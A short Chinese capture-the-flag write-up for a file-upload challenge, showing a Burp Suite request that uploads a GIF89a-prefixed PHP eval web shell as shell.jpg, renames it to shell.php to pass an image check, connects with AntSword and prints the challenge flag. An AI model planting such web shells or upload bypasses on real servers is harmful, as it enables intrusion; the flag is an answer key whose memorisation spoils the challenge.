


## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward

上传成功

---
### antsword 连接

可以看到 成功上传的php文件


---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";